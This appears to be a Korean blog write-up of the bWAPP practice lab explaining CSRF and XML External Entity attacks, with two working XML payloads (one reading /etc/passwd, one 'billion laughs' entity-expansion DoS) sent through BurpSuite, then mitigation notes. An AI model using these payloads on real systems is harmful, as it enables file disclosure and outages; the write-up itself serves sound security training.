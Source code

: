 ```yaml
---
title: "[bWAPP] 8. Cross-Site Request Forgery - XML External Entity Attacks (XXE)"
---
```


<br>

## Cross-Site Request Forgery

크로스 사이트 요청 변조는 공격자에 의해 사용자가 의도하지 않은 악의적인 행위를 서버에 요청하는 취약점.

공격자가 입력한 악의적인 스크립트 코드에 접근하면 사용자의 웹 브라우저는 스크립트 코드에서 의도한 내용을 웹 서버에 요청한다.

웹 서버는 변조된 요청을 사용자의 정상적인 요청으로 판단한여 응답을 보낸다.

<br><br>

## CSRF와  XSS의 차이

CSRF는 웹 브라우저를 신뢰해서 발생하는 취약점으로, 웹 사이트 사용자가 보낸 정상적인 요청과 변조된 요청을 구별하지 못한다.

또한, XSS는 공격 대상이 사용자이지만, CSRF는 사용자가 공격의 매개물로 공격자를 대신하여 악의적인 요청을 웹사이트에 요청한다.

<br><br>

## XML External Entity Attacks (XXE)

- XML 외부 엔티티 공격에는 SYSTEM 키워드를 사용하는데, SYTEM 키워드로 XML 파서를 발생하게 하면 페이지의 내용을 대체하는 권한이 생기고, 공격자는 XML 파서로 서버 시스템에 접근할 수 있다.

<BR>
<bR>

## 난이도 : 하

![image-20220324235545552](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220324235545552.png)

- [Any Bugs?]를 클릭하면 비밀번호 힌트를 초기화하는 기능을 XML코드로 제공한다.

<BR>

### BurpSuite

![image-20220325002000018](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325002000018.png)

- [Any Bugs?]를 눌러 패킷을 캡쳐해준 후에 Repeater로 보내준다.
- 보내준 후 바디부분에 다음과 같이 XML 코드를 삽입해주자
- 다음 XML 코드는 'bWAPP'이라는 외부엔티티를 선언하여 서버의 'passwd' 라는 파일을 출력한다.
- 엔티티 선언 후에는 선언한 엔티티를 참조하기 위해 '&bWAPP;'을 변수에 입력한다.

```xml-dtd
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "file:///etc/passwd">
]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>
```

<br>

![image-20220325002548110](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325002548110.png)

- 요청 상단에 Send 버튼을 눌면 다음과 같이 응답값인 etc 디렉토리의 passwd 파일이 오른쪽에 출력된다.
- 또한, [Any Bugs?]를 눌렀을 때 xxe-1.php 페이지에서 xxe-2.php로 넘어가는 것을 확인할 수 있다.

<br>

### DoS(Denial of Service)

- 이번에는 XML 코드로 하는 도스 공격인 XDoS 공격을 해보자
- 마찬가지로 [Any Bugs?] 버튼을 눌러 BurpSuite로 패킷을 캡쳐해주고 Repeater로 넘겨준 후 요청 Body 부분에 다음 XML 코드를 삽입해주자.
- 다음 XML 코드는 반복되는 문자열을 출력하는 여러 외부 엔티티를 선언하는데
- 엔티티 선언 후에는 선언한 엔티티를 참조하기 위해 외부 엔티티를 선택하여 '&lol9;'을 변수에 입력한다.

```xml-dtd
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT login (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<reset><login>&lol9;</login><secret>blah</secret></reset>
```

<br>

### BurpSuite

![image-20220325003206548](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325003206548.png)

- 입력하고 한 동안 응답이 오지 않는데

<br>

![image-20220325003249093](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325003249093.png)

- 약 30초~1분 사이에 응답이 오는 것을 확인할 수 있다.
- 이는 애플리케이션 계층에서 일어나는 DoS 공격이기에 웹 서비스 제공을 방해하기 떄문에 그렇다.

<br>

<br>

## 대응방안

### 난이도 중

![image-20220325003627750](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325003627750.png)

- 난이도 중이상에서는 다음과 같이 코드가 먹히지 않고 원래 출력되는 메시지만 출력되는 것을 확인할 수 있다.

<br>

### Linux

![image-20220325003751647](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220325003751647.png)

- vi 편집기를 통해 xxe-2.php 소스코드를 열어주자
- 난이도 중,상에서는 login 변수에 사용하는 아이디를 세션에서 받아 입력하기 때문에 BurpSuite를 통해 수정해도 로그인한 사용자의 비밀번호 힌트가 초기화된다.
- 또한, 비밀번호 힌트를 mysqli_real_escape_string 함수를 통해 우회한다.
  - SQL 인젝션에 사용하는 특수 문자는 XXE 공격에도 많이 사용되므로 NULL, \n, \r, \, ', ", ^Z 문자 앞에 백슬래시를 추가하여 XML 코드를 일반 문자로 변경한다.
- 그 다음에는 MySQL 업데이트 셋 구문으로 secret 변수에 입력된 내용을 비밀번호 힌트로 초기화한다.

<br>

<br>

## Reference

![image-20220321173522102](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220321173522102.png)

- 비박스 환경을 활용한 웹 모의해킹 완벽 실습
